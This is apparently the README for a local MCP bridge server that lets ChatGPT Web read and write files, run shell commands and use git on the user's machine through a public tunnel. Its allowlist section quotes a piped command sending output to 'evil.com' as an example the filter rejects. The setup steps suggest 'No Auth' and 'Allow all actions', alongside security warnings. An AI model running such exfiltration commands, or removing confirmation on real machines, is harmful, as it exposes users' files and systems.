

# Codex Free

*Codex Free (but you still have to buy ChatGPT Plus)*

A local MCP bridge server that lets ChatGPT Web Pro call tools on your machine: read/write files, run shell commands, git operations, search. Built with Bun + TypeScript, using `@modelcontextprotocol/sdk` over Streamable HTTP.

ChatGPT talks to a public tunnel URL, which forwards to this server running on your machine, which operates on a project directory you choose.

Since v0.4.0 the tool set also covers the ones [Codex](https://github.com/openai/codex) gives its own agent — `apply_patch`, `exec_command`/`write_stdin`, `view_image`, `update_plan`, `clock_curr_time`/`clock_sleep` — so ChatGPT Web can work the way Codex does: patch files in place instead of rewriting them, drive interactive and long-running processes, and keep a plan across a task. v0.5.0 added the project's `AGENTS.md`, and v0.6.0 Codex's own agent brief, so the client is told how to behave and not just what it can call. v0.7.0 addresses the one thing Codex never had to solve — a context window far smaller than the task — by bounding what a tool call can return and keeping a plan and notes on disk across conversations. v0.8.0 adds Codex's skills: a `SKILL.md` in the repo or your home directory teaches the client how *you* do a recurring task, and only the ones that apply are ever read. Schemas and prompt are ported from the Codex source, not reimplemented from guesswork.

## Architecture



## Quick start

```bash
bun install
bun run main.ts --work-dir /path/to/your/project
```

Server starts on `http://localhost:3000`. MCP endpoint is `/mcp`.

## CLI flags

| Flag | Required | Default | Description |
|------|----------|---------|-------------|
| `--work-dir` | Yes | - | Project directory the tools operate on |
| `--port` | No | `3000` | Server port |
| `--api-key` | No | - | Bearer token for auth |
| `--config` | No | `./codex.config.json` | Config file path |

## Tools

Structured primitives — cheaper and safer than shelling out for the same job, and identical on Windows and POSIX:

| Tool | Description |
|------|-------------|
| `read_file` | Read a file's contents, a bounded window at a time, with optional line offset/limit |
| `write_file` | Write content to a file, creating parent directories if needed |
| `run_command` | Execute a command in the work directory (allowlist-restricted) |
| `git_status` | Show git status, parsed into changed files with status codes |
| `git_push` | Push commits to a remote |
| `git_commit` | Create a commit, optionally staging all tracked changes |
| `git_log` | Show recent commit history |
| `glob` | Find files matching a glob pattern |
| `grep` | Search file contents by regex, with optional context lines |
| `list_directory` | List files and directories with name, type, and size |
| `tree` | Print directory tree as ASCII art |

Ported from Codex (`codex-rs/core/src/tools` at commit `2230d64`, `codex-rs/ext/skills` at `902bd9e`):

| Tool | Codex name | Description |
|------|------------|-------------|
| `apply_patch` | `apply_patch` | Edit files with a context patch instead of rewriting them |
| `exec_command` | `exec_command` | Run a shell command; returns output, or a session id if it is still running |
| `write_stdin` | `write_stdin` | Write to (or poll) a running `exec_command` session |
| `view_image` | `view_image` | Load a local image file for visual inspection |
| `update_plan` | `update_plan` | Track a multi-step plan; saved to disk so a later conversation can pick it up |
| `clock_curr_time` | `clock.curr_time` | Current time in UTC |
| `clock_sleep` | `clock.sleep` | Pause for a given duration |
| `skills_list` | `skills.list` | List the `SKILL.md` skills installed for this project and this user |
| `skills_read` | `skills.read` | Read a skill's instructions, or another file in its package |

Codex's dotted names are flattened to underscores because MCP tool names must match `^[a-zA-Z0-9_-]{1,64}$`.

Five tools have no Codex counterpart:

| Tool | Description |
|------|-------------|
| `get_agent_brief` | Return the whole operating brief — behaviour, environment, saved state and project rules — in one call |
| `get_environment` | Report the OS, the shell `exec_command` uses, the work directory, and what the policy allows |
| `get_project_doc` | Read the project's `AGENTS.md` instructions |
| `remember` | Save one durable note about the task under a short key |
| `recall` | Return the plan and notes saved by earlier turns or earlier conversations |

Codex needs the first three for none of these reasons: it puts its agent brief in the system prompt, the OS and shell in an `<environment_context>` message, and `AGENTS.md` straight into the prompt, all before the first turn. An MCP server has none of those channels — it can only expose tools — so the same facts are tool calls here as well as part of the server's `instructions`. It needs `remember` and `recall` for the opposite reason: its context is large and its session state lives in the CLI process, whereas the client here is a chat window that loses the conversation. See [Acting as a Codex agent](#acting-as-a-codex-agent), [Shells and the host](#shells-and-the-host), [AGENTS.md](#agentsmd) and [Context and memory](#context-and-memory).

Two deliberate differences from Codex:

- **`apply_patch` takes a JSON string.** In Codex it is a *freeform* tool whose entire body is the raw patch. MCP has no freeform tools, so the patch goes in an `input` string parameter. The patch format itself is unchanged.
- **`exec_command` runs with plain pipes, not a PTY.** Codex's own `tty` parameter documents pipes as the default, so ordinary commands behave the same; `tty: true` is rejected rather than silently ignored. Programs that only enable interactive behaviour when attached to a terminal will act as if piped.

`clock_sleep` also caps at 5 minutes rather than Codex's 12 hours — a longer wait would outlive the HTTP request through the tunnel.

Every tool that advertises an `outputSchema` also returns `structuredContent` matching it, as the MCP spec asks. `exec_command` and `write_stdin` return Codex's unified-exec object, `clock_curr_time` returns `{ current_time }`, `get_environment` returns the environment object, `get_project_doc` returns `{ files, content }` and `skills_list` returns `{ skills, content }`; the rest return `{ content: <text> }`, which the server derives from the text blocks so handlers don't repeat it.

All paths are resolved relative to `--work-dir`.

## Config file

`codex.config.json` in the project root, or pass a custom path with `--config`:

```json
{
  "allowedCommands": ["bun", "npm", "npx", "node", "git", "python", "pip", "cargo", "make"],
  "port": 3000,
  "tree": {
    "defaultDepth": 3,
    "ignore": ["node_modules", ".git", "dist", ".next", "__pycache__", ".venv", "venv"]
  },
  "ignore": {
    "useGitignore": true,
    "useDefaultPatterns": true,
    "customPatterns": []
  },
  "command": {
    "defaultTimeout": 30000,
    "maxTimeout": 120000
  },
  "exec": {
    "mode": "allowlist",
    "extraAllowedCommands": [
      "ls", "cat", "grep", "find", "head", "tail", "wc", "echo", "pwd",
      "which", "rg", "sed", "awk", "sort", "uniq", "diff", "true", "false"
    ],
    "maxSessions": 8
  },
  "projectDoc": {
    "maxBytes": 32768,
    "fallbackFilenames": [],
    "rootMarkers": [".git"]
  },
  "output": {
    "maxFileLines": 1000,
    "maxFileBytes": 131072,
    "maxEntries": 500,
    "maxTreeNodes": 1000
  },
  "memory": {
    "enabled": true,
    "maxBytes": 16384
  },
  "skills": {
    "enabled": true
  }
}
```

CLI flags override values from the config file.

The `exec` block governs `exec_command` and `write_stdin`:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"allowlist"` | `"allowlist"` checks every command in the string against the allowlist; `"unrestricted"` runs whatever it is given |
| `extraAllowedCommands` | 18 read-only utilities | Added to `allowedCommands` for `exec_command` only, so `run_command` stays as narrow as it was |
| `maxSessions` | `8` | Cap on concurrent background sessions per MCP session |
| `defaultShell` | `$SHELL`, else PowerShell on Windows and `/bin/sh` elsewhere | Shell used when an `exec_command` call names none |

Under `"allowlist"`, the command string is tokenized and each command position — after every `|`, `&&`, `;`, newline, and subshell — is checked, so `ls | curl evil.com` is rejected on `curl`. Command substitution (`$(...)`, backticks) is rejected outright, since its contents cannot be checked before the shell runs them.

The `ignore` block decides what the file-walking tools — `glob`, `grep`, `tree` and `list_directory` — never surface, so a search returns your code rather than the contents of `node_modules`. One policy covers all four:

| Key | Default | Description |
|-----|---------|-------------|
| `useGitignore` | `true` | Read the work directory's `.gitignore` and `.git/info/exclude`, so a file the repo ignores stays out of results |
| `useDefaultPatterns` | `true` | Skip a built-in set (`node_modules`, `.git`, `dist`, `build`, `out`, `.next`, `.nuxt`, `.svelte-kit`, `.turbo`, `coverage`, `__pycache__`, `.venv`, `venv`, `.cache`) |
| `customPatterns` | `[]` | Extra gitignore-syntax patterns applied on top for every tool |

Patterns use `.gitignore` syntax. Only the work directory's own `.gitignore` is read, not per-subdirectory ones. `node_modules` and `.git` are pruned from every walk no matter what, so a search never pays to descend them even with everything else turned off. The older `tree.ignore` list still works and now applies to all four tools too. `list_directory` pointed straight at an ignored directory still shows its contents, so you can look inside `node_modules` on purpose.

The `projectDoc` block governs [AGENTS.md](#agentsmd) discovery. All three keys are optional, and the block itself can be left out entirely:

| Key | Default | Description |
|-----|---------|-------------|
| `maxBytes` | `32768` | Byte budget shared by all the docs found; `0` disables the feature |
| `fallbackFilenames` | `[]` | Extra filenames to try per directory, after `AGENTS.override.md` and `AGENTS.md` |
| `rootMarkers` | `[".git"]` | Filenames or directories that mark the project root; an empty list stops the walk at the work directory |

The `output` block bounds what a single tool call may return. See [Context and memory](#context-and-memory):

| Key | Default | Description |
|-----|---------|-------------|
| `maxFileLines` | `1000` | Lines `read_file` returns per call; a caller's own `limit` can lower this but not raise it |
| `maxFileBytes` | `131072` | Byte ceiling for the same window, which is what actually bounds a minified file |
| `maxEntries` | `500` | Results per `glob` or `list_directory` call |
| `maxTreeNodes` | `1000` | Nodes in one `tree` walk, counted across the whole tree rather than per directory |

The `memory` block governs `remember`, `recall` and the plan `update_plan` saves:

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | `false` turns persistence off entirely; nothing is read or written |
| `dir` | `~/.codex-free/projects/<name>-<hash of work-dir>` | Where the state file lives. Outside the repository by default |
| `maxBytes` | `16384` | Budget for all notes together. A note over it is rejected, not silently evicted |

The `skills` block governs `SKILL.md` discovery. See [Skills](#skills):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | `false` searches nothing; both tools say so and the catalogue leaves `instructions` |
| `dirs` | `~/.agents/skills`, `~/.codex/skills` | User-scope directories, **replacing** the home-directory defaults. Relative paths resolve against the work directory; project-scope roots are unaffected |

## Context and memory

Codex runs against a large context window and keeps its session in a process you control. ChatGPT Web does neither: the window is smaller than most real tasks, and when it fills — or when you open a new chat — the plan and everything learned along the way are gone, with no sign to the model that they ever existed. v0.7.0 attacks both halves of that.

**Spend the window on less.** Every tool that could return an unbounded amount of text now stops at a budget and says so on its last line, naming the argument that continues from where it stopped:

```
(showing lines 1-1000 of 4820 — call again with offset=1000 for the rest)
```

That line matters as much as the cap. Silent truncation reads as "that was the whole file", which is worse than no cap at all. `read_file` has a byte ceiling as well as a line one, because a minified bundle is a single line several megabytes long that a line cap alone would hand back in full. `exec_command` and `grep` were already bounded, ported that way from Codex.

**Keep what would be expensive to rediscover.** `remember` writes one keyed note; `recall` hands back the notes and the current plan. `update_plan` now persists too, so the plan survives the conversation that made it. Writing to a key that exists replaces it, and an empty value deletes it — a keyed store stays current where an append log accumulates contradictions until it is worthless.

State lives in `~/.codex-free/projects/<name>-<hash>/memory.json`, keyed by the absolute work directory. Nothing is written into the repository you pointed the server at, and two checkouts of the same repo do not share notes.

Because `instructions` is rebuilt for every MCP session, a new conversation opens with the saved plan and notes already in front of it, under a `## Saved state` heading between the environment and `AGENTS.md`. If the client ignores `instructions`, one `recall` gets the same thing.

The division of labour is worth keeping straight: `AGENTS.md` is what is true of the **project** and belongs in the repo; notes are what is true of the **task in flight** and belong here.

## Acting as a Codex agent

A tool list says what a model *can* do; it says nothing about how a careful engineer uses it. Codex closes that gap with a system prompt, and since v0.6.0 so does this bridge — the behavioural half of `codex-rs/core/gpt-5.2-codex_prompt.md` is ported into the server's `instructions`.

That brief is what stops the client rewriting a file it never read, reverting your uncommitted work, reaching for `git reset --hard`, or making a one-step plan. It carries Codex's editing constraints (ASCII by default, comments only where they earn their place, `apply_patch` over rewrites, and the dirty-worktree rules in full), its planning rules, its code-review posture, and its habit of reporting back concisely without pasting files you already have on disk.

The `initialize` response layers Codex's four in Codex's own order, each outranking the one above it, plus one Codex has no need for:

1. **The agent brief** — how to behave.
2. **The environment** — OS, shell, work directory, command policy.
3. **Saved state** — the plan and notes left by earlier work, when there are any. See [Context and memory](#context-and-memory).
4. **The skill catalogue** — what this project and this user already know how to do, when any is installed. See [Skills](#skills).
5. **`AGENTS.md`** — the project speaking for itself, behind the `--- project-doc ---` marker.

Three parts of Codex's prompt are deliberately dropped. Its `rg` preference is redundant here, since `grep` and `glob` are tools that behave the same on every OS. Its final-answer style rules and clickable file-reference syntax both exist to drive a terminal renderer, and an MCP client renders markdown — importing them would produce CLI-flavoured output in a chat window. What those sections were *for* — brevity, not dumping files, relaying output the user cannot see — is kept.

### Starting a chat

`instructions` is the proper channel, but no client is obliged to show it to its model, and ChatGPT Web is not reliable about it. `get_agent_brief` returns the identical string, so one line is enough to onboard a conversation:

```
Call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

Everything else — the shell you're on, the allowlist, your repo's `AGENTS.md` — arrives with that one call. If a chat starts drifting back into generic-assistant behaviour, asking for the brief again re-anchors it.

## Shells and the host

Windows, macOS and Linux are all supported natively; there is no WSL or POSIX-emulation layer in between. Which shell runs is decided by name, not by host platform, the same way Codex's `Shell::derive_exec_args` does it:

| Shell | Invoked as |
|-------|------------|
| `sh`, `bash`, `zsh`, anything else | `<shell> -c "<cmd>"` |
| `powershell`, `pwsh` | `<shell> -NoProfile -Command "<cmd>"` |
| `cmd` | `cmd /c "<cmd>"` |

The default comes from `$SHELL` on every platform, so starting the server from Git Bash on Windows gets bash — with real `ls -la`, pipes and `$VAR` — rather than PowerShell. Set `exec.defaultShell` to override, or pass `shell` on an individual `exec_command` call.

Two Windows-specific details are handled: `powershell -Command` collapses every non-zero child exit code to `1`, so commands are wrapped to re-raise `$LASTEXITCODE`; and `exec_command`'s description gains Codex's PowerShell rules (`-LiteralPath` over `-Path`, `-WindowStyle Hidden`) when the server runs there.

Because the resolved shell decides what a command should even look like, it is published three ways — a client only has to read one of them:

- **`instructions`** in the `initialize` response, as the Environment section of the [agent brief](#acting-as-a-codex-agent).
- **`exec_command`'s description**, which names the actual shell binary and its syntax family.
- **`get_environment`**, for clients that read neither.

## AGENTS.md

A project's `AGENTS.md` is how it tells an agent its own conventions — which test command to run, which files not to touch, how commits should look. Codex reads it before the first turn; since v0.5.0 so does this bridge, using the same algorithm as `codex-rs/core/src/agents_md.rs`.

Discovery walks up from `--work-dir` to the nearest directory holding a **root marker** (`.git` by default), then collects **one doc per directory on the way back down**, so a monorepo's root conventions arrive before the ones belonging to the subdirectory you pointed the server at. In each directory, `AGENTS.override.md` wins over `AGENTS.md`, which wins over anything in `projectDoc.fallbackFilenames`. The files are concatenated outermost-first under a **shared 32 KiB budget**, counted in bytes rather than characters; a file that runs past what is left is cut there and reported as truncated, and whitespace-only files are skipped without spending any of it. If no marker is found anywhere above, only the work directory itself is checked.

Like the environment, the result is published more than one way:

- **`instructions`** carries the doc inline, behind Codex's own `--- project-doc ---` separator. Everything past that marker is the project speaking, and it outranks the [agent brief](#acting-as-a-codex-agent) above it.
- **`get_project_doc`** returns the identical text for clients that never read `instructions`, along with the absolute path of every file it came from and whether each was truncated.

Instructions are built per MCP session, so editing `AGENTS.md` takes effect on the next connection without restarting the server.

## Skills

`AGENTS.md` says what is true of the project always. A **skill** says how to do one recurring task well — cut a release, review a PR the way this team reviews PRs, debug the flaky suite — and is only read when that task comes up. Codex has had them since its extension crate landed; v0.8.0 ports the format and the discovery, from `codex-rs/ext/skills` and `codex-rs/skills`.

A skill is a directory holding a `SKILL.md` whose YAML frontmatter names it and says when it applies:

```
.agents/skills/
└── release/
    ├── SKILL.md
    ├── references/versioning.md
    └── scripts/tag.sh
```

```markdown
---
name: release
description: Cut and publish a release of this project
---

1. Check `bun test` and `bunx tsc --noEmit` are clean.
2. Bump the version in `package.json` and `src/server.ts` together.
3. Run `scripts/tag.sh`; see `references/versioning.md` for what the tag must look like.
```

`description` is required — it is the only thing the model sees before deciding whether the skill is worth reading. `name` defaults to the directory name. `metadata.short-description` is optional. A skill whose frontmatter cannot be used is reported by `skills_list` rather than silently dropped, because the author meant it to be there.

**Where they are found**, in precedence order:

| Scope | Directories |
|-------|-------------|
| `repo` | `.agents/skills` and `.codex/skills`, in every directory from the project root down to `--work-dir` |
| `user` | `~/.agents/skills` and `~/.codex/skills`, or whatever `skills.dirs` names instead |

Repo skills come first, so a project decides how a name behaves inside it; a personal skill of the same name is shadowed and `skills_list` says so rather than merging the two.

**What the model sees.** The catalogue — a name and a description per skill — goes into `instructions` under a `## Skills` heading, so a chat opens knowing what is available without spending a call to find out. Bodies are not loaded: `skills_read` fetches one only once a skill has actually been chosen. That is the progressive disclosure that makes a large library affordable on a small context window. The section is omitted entirely when nothing is installed.

**Reaching the rest of a package.** Reference files, scripts and assets are read with `skills_read` and the skill's name, passing the file's path as `resource`. `read_file` will not do: it is confined to `--work-dir`, and user-scope skills live in your home directory. Paths inside a skill are relative to the skill's own directory, and a `resource` that tries to leave it is rejected — so the only thing this opens up is the inside of a skill you or the project deliberately installed. Reading a `SKILL.md` lists the package's other files, since the model cannot glob a directory it cannot see.

Discovery runs per MCP session, so adding a skill takes effect on the next connection without restarting the server. Set `skills.enabled` to `false` to turn the whole thing off.

## Connecting to ChatGPT

1. In ChatGPT, go to **Settings > Security and login** and enable **Developer mode**.
2. Start the server: `bun run main.ts --work-dir /path/to/your/project`
3. Expose it with a tunnel (ngrok, Cloudflare Tunnel, etc.):
   ```bash
   ngrok http 3000
   ```
4. In ChatGPT, go to **Plugins > + New Plugin**.
5. Set the **Server URL** to the tunnel URL with `/mcp` appended, e.g. `https://<your-tunnel>/mcp`.
6. Set **Authentication** to "No Auth".
7. After creating the plugin, go to **Permissions** and set it to **Allow all actions** so ChatGPT can call tools without asking for confirmation each time.
8. In a new chat, enable the plugin from the composer's tools menu, then open with `Call get_agent_brief and follow it for the rest of this chat.` — see [Acting as a Codex agent](#acting-as-a-codex-agent).

> ChatGPT Plugins only support OAuth, No Auth, and Mixed. The `--api-key` option is for non-ChatGPT clients or tunnel-level auth. When using ChatGPT, secure access through your tunnel provider instead (e.g. ngrok IP restrictions, Cloudflare Access).

## Security

- **Path traversal prevention**: every filesystem tool — including `apply_patch` and `view_image` — resolves paths through a guard that rejects anything outside `--work-dir`.
- **One bounded exception**: [AGENTS.md](#agentsmd) discovery reads above `--work-dir`, up to the nearest `.git`. Nothing else does. It is read-only, opens only `AGENTS.override.md`, `AGENTS.md` and any `projectDoc.fallbackFilenames`, and `get_project_doc` reports the absolute path of every file it used. Set `projectDoc.maxBytes` to `0` to switch it off, or `projectDoc.rootMarkers` to `[]` to keep the search inside the work directory.
- **One bounded write outside the work directory**: `remember` and `update_plan` write `memory.json` under `~/.codex-free/`, deliberately outside the repository so nothing lands in your git history. It holds whatever the model chose to note about the task — read it if you want to know, delete the directory to forget, or set `memory.enabled` to `false` to never write it. The write is atomic (temp file plus rename) and guarded by a per-project lock, so a crash mid-write never leaves a torn file and two servers pointed at the same work directory do not lose each other's notes to an interleaved update. See [Context and memory](#context-and-memory).
- **One bounded read outside the work directory**: [skills](#skills) may live in `~/.agents/skills` or `~/.codex/skills`. `skills_read` opens files there, but only inside a skill package that already exists — the `resource` path is checked against the skill's own directory, so it cannot walk out into the rest of your home directory. `skills_list` reports the absolute path of every skill it found. Set `skills.enabled` to `false` to switch it off, or `skills.dirs` to point the user scope somewhere you choose.
- **Command allowlist**: `run_command` only runs binaries listed in `allowedCommands`; everything else is rejected. `exec_command` checks the same list plus `exec.extraAllowedCommands`, at every command position in the string.
- **Optional bearer token auth**: set `--api-key` to require an `Authorization: Bearer <key>` header on all requests (except `/health`). Useful for non-ChatGPT clients. ChatGPT Plugins do not support simple bearer token auth.

The allowlist is a **guardrail against accidents, not a sandbox**. It catches a model reaching for `curl` or `rm -rf`; it does not contain a determined one. The defaults already include `node`, `python` and `bun`, each of which runs arbitrary code — `node -e "..."` can do anything the server process can. Shell redirection can also write outside the work directory even though the command's cwd is confined to it. Treat everything below as reachable by whoever holds the tunnel URL:

- everything in `--work-dir`, read and write
- anything else the user account running the server can touch, via an allowlisted interpreter
- the network, from your machine

`exec_command` sessions that outlive a request are killed when the MCP session closes, and the kill takes the children with it: `taskkill /T /F` walks the process tree on Windows, and on POSIX each session gets its own process group that is signalled as a whole. A process that deliberately re-parents or daemonises itself still escapes, so check for strays if a run leaves something listening.

Don't expose this without tunnel-level access control (ngrok IP restrictions, Cloudflare Access), and don't point it at directories you don't trust ChatGPT with. If the work directory holds anything sensitive, set `exec.mode` and the allowlists tighter than the defaults rather than relying on them.

## Dev commands

```bash
bun run dev        # watch mode
bun test           # tests
bunx tsc --noEmit  # type check
```

## License

MIT - see [LICENSE](LICENSE).
